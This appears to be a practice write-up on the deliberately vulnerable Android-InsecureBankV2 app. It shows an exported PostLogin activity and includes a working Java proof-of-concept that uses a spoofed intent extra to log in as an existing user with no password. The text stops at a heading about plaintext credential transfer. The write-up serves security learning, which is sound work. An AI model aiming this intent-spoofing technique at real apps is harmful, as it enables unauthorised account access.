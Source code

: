 # B3nac Android-InsecureBankV2 write-up

This is not all the possible vulnerabilities only some of the more severe findings. I definitely recommend this app for practice, it was a lot of fun to exploit. Great job Dinesh Shetty!

Android-InsecureBankV2 can be found here [https://github.com/dineshshetty/Android-InsecureBankv2](https://github.com/dineshshetty/Android-InsecureBankv2).

## PostLogin Activity

### Login as existing user without inputing password

```xml
<activity android:label="@string/title_activity_post_login" android:name="com.android.insecurebankv2.PostLogin" android:exported="true"/>
```

The vulnerable variable that can be changed via user input. This variable occurs throughout most of the exported activites and other components.

`this.uname = getIntent().getStringExtra("uname");`

```java

package b3nac.injuredandroid.poc;

import androidx.appcompat.app.AppCompatActivity;
import android.content.Intent;
import android.os.Bundle;

public class MainActivity extends AppCompatActivity {

    @Override
    protected void onCreate(Bundle savedInstanceState) {
        super.onCreate(savedInstanceState);
        setContentView(R.layout.activity_main);

        Intent start = new Intent();
        start.setClassName("com.android.insecurebankv2", "com.android.insecurebankv2.PostLogin");
        start.putExtra("uname", "jack");

        startActivity(start);
    }

}
```

---


## DoTransfer Activity

### Credentials are passed over http/plaintext
